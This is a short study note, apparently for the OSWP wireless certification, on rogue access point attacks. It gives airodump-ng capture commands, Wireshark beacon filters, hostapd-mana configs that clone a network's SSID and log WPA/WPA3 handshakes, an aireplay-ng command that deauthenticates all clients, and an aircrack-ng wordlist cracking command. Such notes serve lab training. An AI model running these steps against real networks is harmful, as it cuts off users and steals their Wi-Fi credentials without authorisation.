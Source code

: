 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/f-rouge-a-ps/"}
---
```


---------
### Walkthrough:
1. Set up capture:
```
sudo airodump-ng -w discovery --output-format pcap wlan0mon
```
2. Open capture file in Wireshark
3. Filter for beacons:
```
wlan.fc.type_subtype == 0x08 wlan.ssid == "<name>"
```
4. Open "Tagged parameters"
5. Create a .conf file for hostapd-mana according to data:
```
interface=wlan0
ssid=<name>
channel=1
hw_mode=g #change to a for 5GHz
ieee80211n=1
wpa=3 #3 for both wpa/wpa2, 2 for wpa2 only, 1 for wpa only
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP #wpa encryption setting
rsn_pairwise=TKIP CCMP #wpa2 encryption setting
mana_wpaout=<outfile>.hccapx
```
6. Start the AP:
```
sudo hostapd-mana file.conf
```
7. If necessary deauth all clients with a new wireless card:
```
sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon
```
8. Crack the hashes with hashcat or aircrack:
```
aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.lst
```

------
### WPA-3 conf:
```
interface=wlan0
ssid=<name>
channel=1
hw_mode=g #change to a for 5GHz
ieee80211w=1
wpa=2
wpa_key_mgmt=WPA-PSK-SHA256
wpa_passphrase=ANYPASSWORD
rsn_pairwise=CCMP
mana_wpaout=<outfile>.hccapx
```

### Alternative: Probe requests
Wireshark filter:
```
wlan.fc.type_subtype == 4 or wlan.fc.type_subtype == 5
```